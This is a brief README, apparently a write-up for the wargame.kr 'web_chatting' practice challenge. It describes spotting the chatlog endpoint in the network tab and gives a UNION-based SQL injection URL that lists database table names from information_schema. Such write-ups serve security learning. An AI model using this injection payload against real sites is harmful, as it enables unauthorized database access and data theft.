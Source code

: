 # README

## web\_chatting with url sqli

1. input the ID
2. input the example chatting log
3. check the request at Network

chatlog.php?data={something} is sending a chatting log

chatlog.php?t=1&ni=anything allows you to see more than anything

## is comment out

1. you can try url sqli!!

   example : [http://wargame.kr:8080/web\_chatting/chatview.php?t=1&ni=56171 union select 1,table\_name,3,4,5 from information\_schema.tables limit 56171,100--](http://wargame.kr:8080/web_chatting/chatview.php?t=1&ni=56171%20union%20select%201,table_name,3,4,5%20from%20information_schema.tables%20limit%2056171,100--)

